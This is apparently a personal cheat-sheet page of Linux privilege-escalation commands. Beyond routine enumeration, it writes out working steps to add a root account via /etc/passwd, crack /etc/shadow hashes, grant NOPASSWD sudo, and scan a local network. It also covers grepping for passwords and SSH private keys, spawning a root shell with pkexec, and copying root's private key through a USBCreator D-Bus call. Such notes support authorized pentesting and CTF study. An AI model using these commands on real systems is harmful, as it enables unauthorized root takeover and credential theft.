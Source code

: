 ```yaml
---
icon: stethoscope
---
```


# Enumeration

{% embed url="https://book.hacktricks.wiki/en/linux-hardening/linux-privilege-escalation-checklist.html" %}

<details>

<summary><mark style="color:purple;"><strong><code>Basic</code></strong></mark></summary>

{% code title="Host Info" %}
```sh
uname -a
```
{% endcode %}

{% code title="Check Environment" %}
```sh
env
```
{% endcode %}

{% code title="Check user permissions" %}
```bash
sudo -l
```
{% endcode %}

{% code title="Check hostname" %}
```sh
hostname -I
```
{% endcode %}

{% code title="Check the internal network" %}
```sh
ifconfig
```
{% endcode %}

{% code title="User with shells" %}
```sh
grep "sh$" /etc/passwd
```
{% endcode %}

{% code title="Check Ownership by group" %}
```
find / -group management 2>/dev/null
```
{% endcode %}

{% code title="Check processes" %}
```sh
ps auxww
```
{% endcode %}

{% code title="Check mounted devices" %}
```sh
mount
```
{% endcode %}

{% code title="Container processes " lineNumbers="true" %}
```sh
ps auxww | grep docker
ps auxww | grep lxd
```
{% endcode %}

{% code title="Read crontab file" %}
```sh
cat /etc/crontab
```
{% endcode %}

{% code title="Check Services running" %}
```sh
ls /etc/init.d
```
{% endcode %}

{% code title="Check System info" %}
```sh
uname -a
```
{% endcode %}

{% code title="Check groups file" %}
```powershell
cat /etc/group
```
{% endcode %}

{% hint style="info" %}
<mark style="color:orange;">**`adm`**</mark> <mark style="color:purple;">group can read log files.</mark>

```sh
cat /var/log
```
{% endhint %}

{% code title="Show listening ports" %}
```sh
netstat -tuln
netstat -tnl
```
{% endcode %}

{% code title="Listen to the localhost" %}
```sh
netstat -an -p tcp
```
{% endcode %}

{% code title="Check binaries with capabilities" %}
```sh
getcap -r / 2>/dev/null
```
{% endcode %}

{% code title="SUID/SETGID binaries" %}
```sh
find / -perm -4000 -or -perm -2000 2>/dev/null
```
{% endcode %}

{% code title=" Traces library function calls" overflow="wrap" %}
```sh
ltrace ProgramName
```
{% endcode %}

{% code title="Search Kernel for Exploits" %}
```sh
searchsploit "Linux Kernel" | grep <version>
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>/etc/passwd</code></strong></mark></summary>

{% hint style="info" %}


#### <mark style="color:red;">**`Write Permissions`**</mark>

{% code title="Generate the password hash" overflow="wrap" %}
```sh
openssl passwd -1 tokyo
```
{% endcode %}

{% code title="Add the line " overflow="wrap" %}
```sh
echo 'tokyo:$1$iLayOiAd$8dHGiU.Qvk/uqjnoWzRpm/:0:0:tokyo:/root:/bin/bash' >> passwd
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>/etc/shadow</code></strong></mark></summary>

{% hint style="info" %}
{% code title="Create the Hash file" overflow="wrap" %}
```sh
echo 'zoe:$y$j9T$Ct0y5TNQ/sv95CFPz510O/$7YtCDOBISfngZeQ3rsDkRcw2XTFDgHBkxDpuhyBLNO1:1002:1002:zoe:/home/zoe:/bin/bash' > shadowHash.txt
```
{% endcode %}

{% code title="Crack the hash" overflow="wrap" %}
```sh
john --wordlist=~/Documents/Wordlists/rockyou.txt shadow.txt --format=crypt
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>/etc/sudoers</code></strong></mark></summary>

{% hint style="info" %}
{% code title="Try to read it" %}
```sh
cat /etc/sudoers
```
{% endcode %}

* <mark style="color:purple;">If the file is read-only, you need to change its permissions to allow write access:</mark>

```sh
chmod +w /etc/sudoers
```

* <mark style="color:purple;">Add the following line:</mark>

```
yourUser   ALL=(ALL) NOPASSWD: ALL
```

* <mark style="color:purple;">Restore the original file permissions to make it read-only again:</mark>

```sh
chmod 440 /mnt/etc/sudoers
```
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Scan the local network</code></strong></mark></summary>

* <mark style="color:purple;">Find one many hosts there are in the network by doing a</mark> <mark style="color:orange;">**`ping sweep`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```sh
for i in {1..254}; do (ping -c 1 192.168.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```
{% endcode %}

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`nc`**</mark> <mark style="color:purple;">is installed can be use to scan for open ports:</mark>

{% code overflow="wrap" %}
```sh
nc -zv 192.168.0.1 1-65535 2>&1 | grep -v refused | tee scan
```
{% endcode %}

{% code title="UDP scan" overflow="wrap" %}
```sh
nc -uzv 192.168.0.1 1-65535 2>&1 | grep -v refused
```
{% endcode %}

#### [<kbd><mark style="color:orange;">Nmap Binary<mark style="color:orange;"></kbd>](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64)

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Credential Hunting</code></strong></mark></summary>

{% hint style="info" %}


#### <mark style="color:red;">`Passwords`</mark>

* <mark style="color:purple;">Search for the string</mark> <mark style="color:orange;">**`pass`**</mark> <mark style="color:purple;">(case-insensitive) in all files and directories recursively:</mark>

{% code overflow="wrap" %}
```sh
grep -iR "pass" * 2>/dev/null
```
{% endcode %}

* <mark style="color:purple;">Search for</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**the string**</mark>**&#x20;**<mark style="color:orange;">**`password`**</mark> <mark style="color:purple;">in files with double extension, recursively:</mark>

```sh
grep password .*.* -r 2>/dev/null
```

* <mark style="color:purple;">Search for</mark> <mark style="color:orange;">**`ssh`**</mark> <mark style="color:purple;">keys recursively from the current directory you are in:</mark>

{% code overflow="wrap" %}
```sh
grep -iR -E "(ssh-(rsa|ed25519|dss|ecdsa|rsa1)[ ]+[A-Za-z0-9+/=]+|-----BEGIN [A-Z ]+PRIVATE KEY-----)" * 2>/dev/null
```
{% endcode %}

#### <mark style="color:red;">**`Hashes`**</mark>

{% code title="MD5 hashes" %}
```sh
grep -aPo '[a-fA-F0-9]{32}' /DESIRED/PATH
```
{% endcode %}

{% code title="SHA-1" %}
```sh
grep -aPo '[a-fA-F0-9]{40}' /DESIRED/PATH
```
{% endcode %}

{% code title="SHA-256" %}
```sh
grep -aPo '[a-fA-F0-9]{64}' /DESIRED/PATH
```
{% endcode %}

{% code title="SHA-512" %}
```sh
grep -aPo '[a-fA-F0-9]{128}' /DESIRED/PATH
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>Polkit</code></strong></mark></summary>

{% code title="Check policy" overflow="wrap" %}
```sh
cat /etc/polkit-1/localauthority.conf.d
```
{% endcode %}

{% code title="Become root" overflow="wrap" %}
```sh
pkexec "/bin/sh"
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>USBCreator</code></strong></mark></summary>

* <mark style="color:purple;">Allows to over write files with</mark> <mark style="color:orange;">**`sudo`**</mark> <mark style="color:purple;">permissions:</mark>

{% code title="Copy root private key" overflow="wrap" %}
```sh
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/id_rsa true
```
{% endcode %}

</details>
